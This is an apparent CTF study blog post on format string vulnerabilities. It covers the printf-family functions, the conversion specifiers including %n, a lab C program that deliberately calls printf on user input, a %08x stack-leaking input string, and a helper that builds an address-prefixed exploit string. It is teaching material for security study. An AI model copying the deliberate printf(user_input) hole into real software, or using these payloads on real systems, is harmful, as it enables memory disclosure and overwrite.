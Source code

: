 ```yaml
---
layout: ctf
title: "format string vulnerability summary"
date: 2014-10-21 16:02:35
categories: ctf
---
```

#1. About format_string_vulnerability
	
1.1. The Format String exploit occurs when the submitted data of an input string is evaluated as a command by the application. In this way, the attacker could execute code, read the stack, or cause a segmentation fault in the running application, causing new behaviors that could compromise the security or the stability of the system.

1.2. The attack could be executed when the application doesn’t properly validate the submitted input. In this case, if a Format String parameter, like %x, is inserted into the posted data, the string is parsed by the Format Function, and the conversion specified in the parameters is executed. However, the Format Function is expecting more arguments as input, and if these arguments are not supplied, the function could read or write the stack.In this way, it is possible to define a well-crafted input that could change the behavior of the format function, permitting the attacker to cause denial of service or to execute arbitrary commands.
#2. Related function and parameter
##2.1. format string output functions:


format fuction | description
 :------------: | :--------------:
   fprintf       | write the printf to a file
   printf | output a formatted string
   sprintf | prints to a string
   snprintf | prints into a string checking the length
   vfprintf | prints the va_arg strcture to a file
   vprintf | prints the va_arg strucure to stdout
   vsprintf | prints the va_arg to a string
   vsnprintf | prints the va_arg to a string checking the length
   

##2.2. Common string format parameters

parameters | output | passed as
:---------: | :------:| :-----:
%p | external representation of a pointer to void | reference
%d | decimal | value
%c | character | value
%u | unsigned decimal | value
%x | hexadecimal | value
%s | string | reference
%n | writes the number of characters into a pointer | reference

#3. experiment
##3.1 stack test when function call
original : <http://blog.csdn.net/feng_zh/article/details/7075986>

code: test_printf(32 bit linux os)

	.section .data
        format: .asciz "%d\n"
	.section .text
	.global _start
	_start:
        pushl $12
        pushl $format
        call printf
        movl $0, (%esp)
        call exit
        
compile and link:

    as -g test_printf.s -o test_printf.o
    ld -lc -I /lib/ld-linux.so.2 test_printf.o -o test_printf
    
    #as -g for debug #ld -lc to link libc.a # ld -I to dynamic link /lib/ld-linux.so.2
    
objdump and gdb

	objdump -d test_printf 
	gdb test_printf
	b start
	run
	s #single step run
	info reg
	x/40 $SP
	
	
##3.2 format string vulnerablity test
original : <http://blog.sina.com.cn/s/blog_70dd16910100qfuh.html>

code: vul_program.c (32 bit linux os)

	#define SECRET1 0x44
	#define SECRET2 0x55
 
	int main(int argc, char *argv[])
	{
	  char user_input[100];
	  int *secret;
	  int int_input;
	  int a, b, c, d; //other variables, not used here.
	 
	  // The secret value is stored on the heap
	  secret = (int *) malloc(2*sizeof(int));
	 
	  // getting the secret
	  secret[0] = SECRET1; secret[1] = SECRET2;
	 
	  printf("The variable secret's address is 0x%8x (on stack)\n", &secret);
	  printf("The variable secret's value is 0x%8x (on heap)\n", secret);
	  printf("secret[0]'s address is 0x%8x (on heap)\n", &secret[0]);
	  printf("secret[1]'s address is 0x%8x (on heap)\n", &secret[1]);
	 
	  printf("Please enter a decimal integer\n");
	  scanf("%d", &int_input);  // getting an input from user
	  printf("Please enter a string\n");
	  scanf("%s", user_input); // getting a string from user
	 
	  // Vulnerable place
	  printf(user_input); 
	  printf("\n");
	 
	  // Verify whether your attack is successful
	  printf("The original secrets: 0x%x -- 0x%x\n", SECRET1, SECRET2);
	  printf("The new secrets:      0x%x -- 0x%x\n", secret[0], secret[1]);
	  return 0;
	}
	
compile

	gcc vul_program.c -o vul_program
	
test

	./vul_program
	input 1 as test
	input string %08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
	
notes:

	when ASLR closed no int_input required, we can construct the string to specific address.
	useful string construct code:
	contruct_mystring.c
	#include <sys/types.h>
	#include <sys/stat.h>
	#include <fcntl.h>
	 
	int main()
	{
	       char buf[1000];
	       int fp, size;
	       unsigned int *address;
	// Putting any number you like at the beginning of your format string
	       address  = (unsigned int *) buf;
	       *address = 0x22080;
	//Geting the rest of the format string
	       scanf("%s", buf+4);
	       size = strlen(buf+4) + 4;
	       printf("The string length is %d\n", size);
	 
	//Writing buf to "mystring"
	       fp = open("mystring", O_RDWR | O_CREAT | O_TRUNC, S_IRUSR | S_IWUSR);
	       if(fp !=-1)
	       {
	              write(fp, buf, size);
	              close(fp);
	       }
	       else
	       {
	              printf("Open failed!\n");
	       }
	       return 0;
	}

#reference
1. <https://www.owasp.org/index.php/Format_string_attack>
2. <http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf>